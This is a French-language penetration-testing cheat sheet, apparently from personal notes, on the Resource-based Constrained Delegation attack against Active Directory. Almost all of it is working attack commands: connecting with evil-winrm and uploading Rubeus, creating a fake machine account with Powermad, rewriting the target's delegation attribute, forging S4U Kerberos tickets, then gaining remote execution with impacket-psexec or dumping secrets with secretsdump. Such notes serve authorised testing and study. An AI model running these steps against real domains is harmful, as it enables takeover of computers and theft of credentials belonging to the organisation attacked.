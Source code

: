 ```yaml
---
description: >-
  Je me demande si ajouter une machine au domaine avec un compte et réaliser
  directement les commandes powershell dessus ne fonctionne pas également.
---
```


# Resource-based Constrained Delegation

_**Objectif :** Devenir administrateur d'un objet ordinateur (\<MACHINE-CIBLE>)._

_**Note :** Cette attaque est possible si un utilisateur dispose_

* _Des droits "GenericAll" sur un objet ordinateur (\<MACHINE-CIBLE>)._
* _Du droit "CanPSRemote" sur une machine du domaine (MACHINE-DOMAINE)._

#### Connexion à une machine du domaine

```
$ evil-winrm -u "<USER>" -p '<PASSWORD' -i <IP-MACHINE-DOMAINE> -s /home/kali/tools/
#>PowerView.ps1
#>Powermad.ps1
#>upload Rubeus.exe
```

#### Conditions

```
#>Get-DomainObject -Identity "dc=domain,dc=com" -Domain domain.com -> Suppérieur à 0
#>Get-DomainController -> Suppérieur ou égale à 2012
#>Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity -> Vide
```

#### Réalisation de l'attaque

```
#### Création d'une fausse machine sur le domaine
#>New-MachineAccount -MachineAccount <FAKE-MACHINE> -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
#>Get-DomainComputer <FAKE-MACHINE> -> Récupération du SID

#### Indiquer à <MACHINE-CIBLE> qu'elle doit faire confiance au compte <FAKE-MACHINE>
#>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID-FAKE-MACHINE>)"
#>$SDBytes = New-Object byte[] ($SD.BinaryLength)
#>$SD.GetBinaryForm($SDBytes, 0)
#>Get-DomainComputer <MACHINE-CIBLE> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### Génération des tickets Kerberos et RCE

Windows :&#x20;

```
#>./Rubeus.exe hash /password:123456 /user:<FAKE-MACHINE> /domain:<DOMAINE>
#>./Rubeus.exe s4u /user:<FAKE-MACHINE> /rc4:<RC4-PASSWORD> /impersonateuser:<ADMIN-MACHINE-CIBLE> /msdsspn:cifs/<MACHINE-CIBLE>.<DOMAINE> /domain:<DOMAINE> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```

Linux :&#x20;

```
$ impacekt-getST -spn "cifs/<MACHINE-CIBLE>.<DOMAINE>" -impersonate <ADMIN-MACHINE-CIBLE> -dc-ip <IP-DC> '<DOMAINE>/<FAKE-MACHINE>$:123456'
$ export KRB5CCNAME=<ADMIN-MACHINE-CIBLE>.ccache
$ klist
$ impacket-psexec -k ['<DOMAINE>/<USER>@]<MACHINE-CIBLE>.<DOMAINE> or impacket-secretsdump -k <MACHINE-CIBLE>.<DOMAINE>
```
